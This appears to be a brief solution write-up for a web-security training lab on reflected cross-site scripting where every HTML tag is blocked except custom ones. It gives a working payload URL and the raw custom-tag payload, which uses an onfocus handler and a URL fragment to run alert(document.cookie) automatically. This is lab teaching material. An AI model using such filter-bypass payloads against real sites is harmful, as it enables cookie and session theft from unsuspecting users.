 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie`.

# Solution:

```payload URL
https://0ad50003034ed0fb80044ebe001000c1.web-security-academy.net/?search=%3Ccustom-tag+onfocus%3Dalert(document.cookie)+id%3Dx+tabindex%3D1%3E#x
```

```script
<custom-tag onfocus=alert(document.cookie) id=x tabindex=1>
```


**NOTE: One should have basic foundations in HTML and it's custom tagsss.**